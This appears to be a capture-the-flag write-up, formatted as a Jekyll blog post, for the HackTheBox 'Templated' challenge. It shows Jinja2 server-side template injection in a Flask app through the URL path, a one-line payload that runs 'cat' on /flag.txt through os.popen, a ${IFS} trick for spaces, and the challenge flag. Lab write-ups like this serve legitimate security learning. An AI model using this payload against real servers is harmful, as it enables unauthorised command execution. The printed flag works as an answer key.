 ```yaml
---
layout: default
title:  "Templated"
permalink: /bloghub/templated/
date:   2022-03-09 6:17:40 -0500
categories: jekyll update
---
```


## Introduction 
In this application, we will take advantage of a Server-Side template injection in order to gain RCE in the flask server. 

### Step 1
Surfing the application we get 

![image](https://user-images.githubusercontent.com/54769522/172023200-340c7a1b-191e-4e23-a8aa-187391b1a440.png)

Obviously, _Proudly powered by Flask/Jinja2_ is an indication for SSTI vulnerability against the Jinja2 Engine. 

Fuzzing more through the application I thought of fuzzing for hidden API endpoints?, but I guess this is way too hard for an easy challenge, let's just test it manually first. 

### Finding the injection point 
Sending a request to */test* non-existing endpoint we get 

![image](https://user-images.githubusercontent.com/54769522/172023219-9a050ce5-7f16-44a5-981f-f123c6e9682a.png)

Page Source:

![image](https://user-images.githubusercontent.com/54769522/172023229-d54bd9f4-f727-4ac2-9b49-b51a258466a5.png) 
The endpoint name is being reflected in an HTML _<str>_ tag, which is interesting. 

Let’s try something simple ... 

![image](https://user-images.githubusercontent.com/54769522/172023248-1b915200-5084-4fd5-afed-d77bf72f68a4.png) 

Boom! template rendering applied.

Let's jump in to try out RCE payloads. 

```
GET /{{request.application.__globals__.__builtins__.__import__('os').popen('cat${IFS}/flag.txt').read()}}
```  
We get the flag.txt 
```
HTB{t3mpl4t3s_4r3_m0r3_p0w3rfu1_th4n_u_th1nk!}
``` 
_*TIP*_: We can use the Internal Field Separator bash variable _${IFS}_ in order to inject bash spaces since endpoint path should not contain whitespaces. 
